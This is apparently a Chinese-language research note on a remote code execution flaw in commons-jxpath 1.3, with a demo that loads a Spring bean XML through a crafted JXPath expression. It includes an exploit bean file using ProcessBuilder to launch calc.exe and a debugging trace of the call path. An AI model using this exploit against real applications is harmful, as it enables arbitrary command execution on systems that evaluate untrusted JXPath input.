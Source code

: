 ## 漏洞环境

目前影响到1.3

maven
```xml
<!-- https://mvnrepository.com/artifact/commons-jxpath/commons-jxpath -->
<dependency>
    <groupId>commons-jxpath</groupId>
    <artifactId>commons-jxpath</artifactId>
    <version>1.3</version>
</dependency>
```

demo
```java
package com.jxpath.demo;  
  
import org.apache.commons.jxpath.JXPathContext;  
  
public class demo {  
    public static void main(String[] args) {  
        try {  
            JXPathContext context = JXPathContext.newContext((Object)null);  
            String key = (String) context.getValue("org.springframework.context.support.ClassPathXmlApplicationContext.new(\"http://127.0.0.1:8000/bean.xml\")");  
            System.out.println(key);  
        } catch (Exception e){  
            System.out.println(e);  
        }  
    }  
}
```

exp
```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<!--    普通方式创建类-->
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value>calc.exe</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```


## 调试

入口 getValue
![](attachments/Pasted%20image%2020230422154855.png)

在将xpath放到express中后又带入getValue

![](attachments/Pasted%20image%2020230422155340.png)

ExtensionFunction#computeValue

![](attachments/Pasted%20image%2020230422155530.png)

org/apache/commons/jxpath/ri/axes/RootContext.java#getFunction

![](attachments/Pasted%20image%2020230422155630.png)

org/apache/commons/jxpath/ri/JXPathContextReferenceImpl.java#getFunction

![](attachments/Pasted%20image%2020230422155749.png)

org/apache/commons/jxpath/PackageFunctions.java#getFunction

![](attachments/Pasted%20image%2020230422160210.png)

在下面根据是否new方法来来返回不同的function
- MethodLookupUtils.lookupConstructor
- MethodLookupUtils.lookupStaticMethod

![](attachments/Pasted%20image%2020230422161104.png)

在ConstructorFunction后，这就是前面get到的function

![](attachments/Pasted%20image%2020230422161631.png)

org/apache/commons/jxpath/functions/ConstructorFunction.java#invoke

![](attachments/Pasted%20image%2020230422161802.png)

constructor.newInstance后向上一直到`\org\springframework\spring-jcl\5.3.23\spring-jcl-5.3.23.jar!\org\apache\commons\logging\LogFactory.class` 进行getName

![](attachments/Pasted%20image%2020230422162046.png)

之后就是一直到refresh执行结弹出计算器

![](attachments/Pasted%20image%2020230422162504.png)

```java
public void refresh() throws BeansException, IllegalStateException {  
    synchronized(this.startupShutdownMonitor) {  
        StartupStep contextRefresh = this.applicationStartup.start("spring.context.refresh");  
        this.prepareRefresh();  
        ConfigurableListableBeanFactory beanFactory = this.obtainFreshBeanFactory();  
        this.prepareBeanFactory(beanFactory);  
  
        try {  
            this.postProcessBeanFactory(beanFactory);  
            StartupStep beanPostProcess = this.applicationStartup.start("spring.context.beans.post-process");  
            this.invokeBeanFactoryPostProcessors(beanFactory);  
            this.registerBeanPostProcessors(beanFactory);  
            beanPostProcess.end();  
            this.initMessageSource();  
            this.initApplicationEventMulticaster();  
            this.onRefresh();  
            this.registerListeners();  
            this.finishBeanFactoryInitialization(beanFactory);  
            this.finishRefresh();  
        } catch (BeansException var10) {  
            if (this.logger.isWarnEnabled()) {  
                this.logger.warn("Exception encountered during context initialization - cancelling refresh attempt: " + var10);  
            }  
  
            this.destroyBeans();  
            this.cancelRefresh(var10);  
            throw var10;  
        } finally {  
            this.resetCommonCaches();  
            contextRefresh.end();  
        }  
  
    }  
}
```